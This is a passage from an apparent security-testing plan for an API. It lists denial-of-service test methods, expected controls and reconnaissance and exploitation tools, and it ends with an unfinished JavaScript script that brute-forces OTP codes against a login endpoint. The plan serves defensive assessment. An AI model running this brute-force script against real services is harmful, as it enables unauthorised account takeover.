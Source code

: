 **Method:**
1. Test rate limiting effectiveness with automated requests
2. Look for resource exhaustion vulnerabilities
3. Test memory consumption with large payloads
4. Attempt to overload message queues
5. Test database connection pooling limits

**Expected Security Controls:**
- Effective rate limiting
- Resource quotas
- Request timeout mechanisms
- Graceful error handling

## Tools and Techniques

### Reconnaissance Tools
- Nmap for port scanning
- Amass for subdomain enumeration
- Burp Suite for web application mapping
- OWASP ZAP for automated discovery

### Vulnerability Scanning Tools
- OWASP ZAP for web vulnerability scanning
- Burp Suite Professional for API testing
- jwt_tool for JWT analysis
- Nikto for web server scanning

### Exploitation Tools
- Metasploit Framework for exploitation
- SQLmap for SQL injection (if applicable)
- Custom scripts for specific attacks
- OWASP ZAP for exploitation assistance

### Custom Testing Scripts

```javascript
// Example script for testing OTP brute force
const axios = require('axios');

async function testOTPBruteForce(endpoint, phoneNumber) {
  const results = [];
  // Try 1000 different OTPs
  for (let i = 0; i < 1000; i++) {
    const otp = String(i).padStart(6, '0');
    try {
      const response = await axios.post(endpoint, {
        phoneNumber,
        otp
      });
      results.push({
        otp,
        status: response.status,
        data: response.data
      });
      // If successful, stop and report
      if (response.status === 200) {
        console.log(`Success with OTP: ${otp}`);
        break;
      }
    } catch (error) {
      results.push({
        otp,
        status: error.response?.status,
```